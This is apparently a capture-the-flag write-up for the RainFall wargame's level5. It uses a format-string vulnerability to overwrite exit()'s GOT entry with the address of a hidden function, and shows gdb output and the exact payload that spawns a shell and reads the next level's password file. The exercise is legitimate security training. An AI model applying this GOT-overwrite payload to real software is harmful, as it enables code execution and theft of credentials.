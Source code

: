 ## Context

This exercise is similar to the previous one, except that this time the program makes a call to exit() and therefore never returns.

## Lead

But if we take a closer look at the exit() implementation, we see that the program jumps to an address: 0x8049838. So let's try to overwrite this address!
```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

## Exploit

We will need to find the address of the o() function and the offset of the buffer in the stack. Using gdb (`info functions`), we find the address of the o() function: 0x080484a4, which is 134513828 in decimal. Finally, we find that the offset of the buffer in the stack is 4, following the same method as for the previous levels. 

We can now craft our input and exploit the program, passing the address we want to overwrite, followed by the good amount of bytes in order to get the decimal value of the o() function address (134513828 - 4):
```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5
```
After printing a lot of whitespaces a shell is open and we can display the content of the /home/level6/.pass file. We can now reach to the next level with the command `su level6` and fill in the flag found as a password.